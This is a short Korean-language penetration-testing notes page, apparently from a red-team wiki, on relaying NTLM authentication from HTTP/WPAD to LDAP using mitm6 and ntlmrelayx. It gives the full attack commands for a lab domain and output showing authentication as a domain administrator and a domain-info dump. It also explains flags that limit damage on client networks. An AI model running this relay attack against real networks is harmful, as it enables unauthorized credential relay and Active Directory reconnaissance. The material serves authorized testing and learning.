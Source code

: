 # HTTP to LDAP - TODO



### MITM6 + SMB to LDAP&#x20;

* MITM6 를 이용해 SMB&#x20;

```
# 1. MITM6 세팅 
python3 mitm6.py -d <도메인> --ignore-nofqdn

# 1-1. 특정 호스트만 화이트리스트 처리 후 mitm6 공격 
python3 mitm6.py -d <도메인> --ignore-nofqdn -hw <호스트 FQDN>
python3 mitm6.py -d choi.local --ignore-nofqdn -hw wkstn01.choi.local

# 2. ntlmrelayx 세팅 
python3 ntlmrelayx.py -t ldap://<ip> -wh <wpad-이름-아무거나> -6 --no-da --no-acl
python3 ntlmrelayx.py -t ldap://192.168.40.150 -wh choipad -6 --no-da --no-acl

# ntlmrelayx 공격 결과 
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Connection from ::ffff:192.168.40.151 controlled, attacking target ldap://192.168.40.150
[*] HTTPD(80): Authenticating against ldap://192.168.40.150 as CHOI/ADMINISTRATOR SUCCEED
[*] Domain info dumped into lootdir!

```

ntlmrelayx 의 기본적인 LDAP 공격은 도메인 어드민 유저를 생성한다거나 ACL 공격을 함부로 진행하는 등의 고객사 네트워크에 사용하기엔 좀 위험한 공격들이 있다. 따라서 `--no-da` 와 `--no-acl` 등의 플래그를 이용해서 기본 공격들을 진행하지 않는다.&#x20;

위 실습에서는 오로지 도메인 정보만 덤프하는 아주 기본적인 공격을 진행했다. 사실상 BloodHound 를 실행한 것과 같은 공격이다.&#x20;

